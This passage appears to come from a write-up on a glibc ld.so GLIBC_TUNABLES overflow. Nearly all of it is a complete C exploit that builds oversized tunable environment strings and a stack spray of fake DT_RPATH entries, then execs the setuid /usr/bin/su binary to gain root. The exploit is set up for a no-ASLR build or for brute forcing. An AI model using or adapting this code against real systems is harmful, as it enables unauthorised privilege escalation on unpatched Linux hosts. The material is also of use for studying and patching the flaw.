 The final exploit requires breaking at `dl-object.c:92` to manually set `l_info[RT_PATH]` to point to the stack, otherwise, a loop bruteforce needs to be written.

```c
// gcc -DNO_ASLR exp.c -g -o exp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

int main() {
    char *envp[0x1000] = {NULL};
    char *argv[] = {"/usr/bin/su", "--help", NULL};

    // Initialize envp
    for (int i = 0; i < 0xfff; i++) {
        envp[i] = "";
    }

    // Fill the ld.so read-write section
    char p[0xd00];
    strcpy(p, "GLIBC_TUNABLES=glibc.malloc.mxfast=");
    for (int i = strlen(p); i < sizeof(p) - 1; i++) {
        p[i] = 'A';
    }
    p[sizeof(p) - 1] = '\0';
    envp[0] = p;

    // Overflow
    char overflow[0x300];
    strcpy(overflow, "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast="); // 55
    for (int i = strlen(overflow); i < sizeof(overflow) - 1; i++) {
        overflow[i] = 'B';
    }
    overflow[sizeof(overflow) - 1] = '\0';
    envp[1] = overflow;

    // Separator block
    char p2[0x300];
    strcpy(p2, "GLIBC_TUNABLES=glibc.malloc.mxfast=");
    for (int i = strlen(p2); i < sizeof(p2) - 1; i++) {
        p2[i] = 'C';
    }
    p2[sizeof(p2) - 1] = '\0';
    envp[0x500] = p2;

    // Stack
    char dt_rpath[0x10000]; // 1MB
    for( int i = 0; i<sizeof(dt_rpath); i+=8) {
        *(unsigned long long *)&dt_rpath[i] = -0x14;
    }
    for (int i = 0xff0; i < 0xff6; i++) {
        envp[i] = dt_rpath;
    }
    envp[0xff6] = "AAAAA";  // alignment
    envp[0xfd] = "MuElnova";

    execve(argv[0], argv, envp);
}
```
